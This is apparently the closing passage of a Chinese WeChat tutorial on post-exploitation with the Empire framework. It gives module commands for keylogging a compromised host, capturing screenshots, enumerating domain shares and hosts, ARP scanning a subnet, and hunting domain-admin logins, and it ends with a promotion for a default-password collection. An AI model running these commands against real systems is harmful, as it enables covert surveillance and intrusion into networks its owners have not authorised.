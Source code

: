 ![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKicM8LfWW8AYjO9swd0SF1TPLZj7TooBiaTEQriazFgt85icvDnmmbicghTQ/640?wx_fmt=png)

截屏结果保存在目录 Empire/downloads / 主机名 / screenshot

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK288xjm5mmEGaMX4DO1590JGRcICsmzXJKLGwicv5ICzODrPL5CK1qpg/640?wx_fmt=png)

键盘记录

usemodule powershell/collection/keylogger

set Agent PC2

execute

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKoTPqMp3T7mQ18iboAbd43Q1d7ibmy5ZQRXgN5RselMiaJubj9z7KiawWOA/640?wx_fmt=png)

键盘记录结果保存在目录 Empire/downloads / 主机名 / agents.log

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKApqodhVjYAPbhIMHrXegoYice0BtmrsflMy6tWKEtRRr4tot1AhAG7A/640?wx_fmt=png)

列出域内所有共享

powershell/situational_awareness/network/powerview/share_finder

查看本机用户, 域组成员系统基本信息

usemodule powershell/situational_awareness/host/winenum

列举系统中所有有用信息，报告各种日志、RDP 登录信息等

usemodule powershell/situational_awareness/host/computerdetails*

ARP 扫描

usemodule powershell/situational_awareness/network/arpscan

set Agent PC2

set range 192.168.190.1-192.168.190.254

execute

dns 信息获取

usemodule powershell/situational_awareness/network/reverse_dns

显示当前内网 dns 服务器地址

usemodule powershell/situational_awareness/host/dnsserver

查找域管登录服务器 IP

usemodule powershell/situational_awareness/network/powerview/user_hunter

作者: Micr067

**公众号后台回复关键词 “口令”，获取常见 web 系统及厂商网络安全设备默认用户名及密码汇总（220 页 PDF 文档）。**

白名单转载于安全祖师爷

**推荐阅读**[**![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyIDG0WicDG27ztM2s7iaVSWKiaPdxYic8tYjCatQzf9FicdZiar5r7f7OgcbY4jFaTTQ3HibkFZIWEzrsGg/640?wx_fmt=png)**](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247494811&idx=1&sn=23ec661f57424184e43ea216a8398c58&chksm=9acd3c04adbab512e2a1c40156b05a5dc40ea07dacf239a9041235324a563d555a4e4625e988&scene=21#wechat_redirect)  

公众号

**觉得不错点个 **“赞”**、“在看”，支持下小编****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**
